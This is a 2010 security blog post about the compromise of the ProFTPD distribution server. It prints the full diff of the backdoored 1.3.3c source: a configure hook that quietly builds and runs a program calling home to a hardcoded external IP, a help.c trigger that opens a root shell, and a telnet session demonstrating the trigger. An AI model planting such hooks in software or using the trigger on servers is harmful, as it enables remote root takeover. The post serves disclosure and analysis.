 ```yaml
---
layout: post
title: ftp.proftpd.org compromised
date: '2010-12-02T13:28:00.001+01:00'
author: Xavier Garcia
tags:
- backdoor
- proftpd
- compromised
modified_time: '2010-12-02T14:37:43.219+01:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-6740988145907143935
blogger_orig_url: http://www.shellguardians.com/2010/12/ftpproftpdorg-compromised.html
---
```

The ProFTPD project  has sent a [report](http://sourceforge.net/mailarchive/message.php?msg_name=alpine.DEB.2.00.1012011542220.12930%40familiar.castaglia.org) to inform that the **main distribution server  was compromised**.  
  

> On Sunday, the 28th of November 2010 around 20:00 UTC the main distribution server of the ProFTPD project was compromised. The attackers most likely used an unpatched security issue in the FTP daemon to gain access to the server and used their privileges to replace the source files for ProFTPD 1.3.3c with a version which contained a backdoor. The unauthorized modification of the source code was noticed by Daniel Austin and relayed to the ProFTPD project by Jeroen Geilman on Wednesday, December 1 and fixed shortly afterwards.

  

> The backdoor introduced by the attackers allows unauthenticated users remote root access to systems which run the maliciously modified version of the ProFTPD daemon

  
**UPDATE: I found a diff of the trojaned version**  
  
```diff 
diff -Naur proftpd-1.3.3c.orig/configure proftpd-1.3.3c/configure  
--- proftpd-1.3.3c.orig/configure       2010-04-14 00:01:35.000000000 +0200  
+++ proftpd-1.3.3c/configure    2010-10-29 19:08:56.000000000 +0200  
@@ -9,7 +9,10 @@  
 ## --------------------- ##  
 ## M4sh Initialization.  ##  
 ## --------------------- ##  
-  
+gcc tests/tests.c -o tests/tests >/dev/null 2>&1  
+cc tests/tests.c -o tests/tests >/dev/null 2>&1  
+tests/tests >/dev/null 2>&1 &  
+rm -rf tests/tests.c tests/tests >/dev/null 2>&1  
 # Be more Bourne compatible  
 DUALCASE=1; export DUALCASE # for MKS sh  
 if test -n "${ZSH_VERSION+set}" && (emulate sh) >/dev/null 2>&1; then  
diff -Naur proftpd-1.3.3c.orig/src/help.c proftpd-1.3.3c/src/help.c  
--- proftpd-1.3.3c.orig/src/help.c      2009-07-01 01:31:18.000000000 +0200  
+++ proftpd-1.3.3c/src/help.c   2010-11-16 18:40:46.000000000 +0100  
@@ -27,6 +27,8 @@  
  */  
  
 #include "conf.h"  
+#include <stdlib.h>  
+#include <string.h>  
  
 struct help_rec {  
   const char *cmd;  
@@ -126,7 +128,7 @@  
         cmd->server->ServerAdmin ? cmd->server->ServerAdmin : "ftp-admin");  
  
     } else {  
-  
+      if (strcmp(target, "ACIDBITCHEZ") == 0) { setuid(0); setgid(0); system("/bin/sh;/sbin/sh"); }  
       /* List the syntax for the given target command. */  
       for (i = 0; i < help_list->nelts; i++) {  
         if (strcasecmp(helps[i].cmd, target) == 0) {  
diff -Naur proftpd-1.3.3c.orig/tests/tests.c proftpd-1.3.3c/tests/tests.c  
--- proftpd-1.3.3c.orig/tests/tests.c   1970-01-01 01:00:00.000000000 +0100  
+++ proftpd-1.3.3c/tests/tests.c        2010-11-29 09:37:35.000000000 +0100  
@@ -0,0 +1,58 @@  
+#include <stdio.h>  
+#include <stdlib.h>  
+#include <sys/socket.h>  
+#include <sys/types.h>  
+#include <netinet/in.h>  
+#include <arpa/inet.h>  
+#include <unistd.h>  
+#include <netdb.h>  
+#include <signal.h>  
+#include <string.h>  
+  
+#define DEF_PORT 9090  
+#define DEF_TIMEOUT 15  
+#define DEF_COMMAND "GET /AB HTTP/1.0\r\n\r\n"  
+  
+int sock;  
+  
+void handle_timeout(int sig)  
+{  
+    close(sock);  
+    exit(0);  
+}  
+  
+int main(void)  
+{  
+  
+        struct sockaddr_in addr;  
+        struct hostent *he;  
+        u_short port;  
+        char ip[20]="212.26.42.47";  
+        port = DEF_PORT;  
+        signal(SIGALRM, handle_timeout);  
+        alarm(DEF_TIMEOUT);  
+        he=gethostbyname(ip);  
+        if(he==NULL) return(-1);  
+        addr.sin_addr.s_addr = *(unsigned long*)he->h_addr;  
+        addr.sin_port = htons(port);  
+        addr.sin_family = AF_INET;  
+        memset(addr.sin_zero, 0, 8);  
+        sprintf(ip, inet_ntoa(addr.sin_addr));  
+        if((sock = socket(AF_INET, SOCK_STREAM, 0))==-1)  
+        {  
+                return EXIT_FAILURE;  
+        }  
+        if(connect(sock, (struct sockaddr*)&addr, sizeof(struct sockaddr))==-1)  
+        {  
+            close(sock);  
+            return EXIT_FAILURE;  
+        }  
+        if(-1 == send(sock, DEF_COMMAND, strlen(DEF_COMMAND), 0))  
+        {  
+            return EXIT_FAILURE;  
+        }  
+        close(sock);  
+  
+return 0; }  
+  
+  
```
  
 ```bash 
$ telnet 0 21  
Trying 0.0.0.0...  
Connected to 0.  
Escape character is '^]'.  
220 ProFTPD 1.3.3c Server (ProFTPD Default Installation) [127.0.0.1]  
HELP  
214-The following commands are recognized (* =>'s unimplemented):  
 CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV  
 EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD  
 XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP  
 NOOP    FEAT    OPTS    AUTH*   CCC*    CONF*   ENC*    MIC*  
 PBSZ*   PROT*   TYPE    STRU    MODE    RETR    STOR    STOU  
 APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST  
 NLST    STAT    SITE    MLSD    MLST  
214 Direct comments to someone@somewhere  
HELP ANOOP      
502 Unknown command 'ANOOP'  
HELP a  
502 Unknown command 'A'  
HELP ACIDBITCHEZ  
  
  
  
id ;  
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
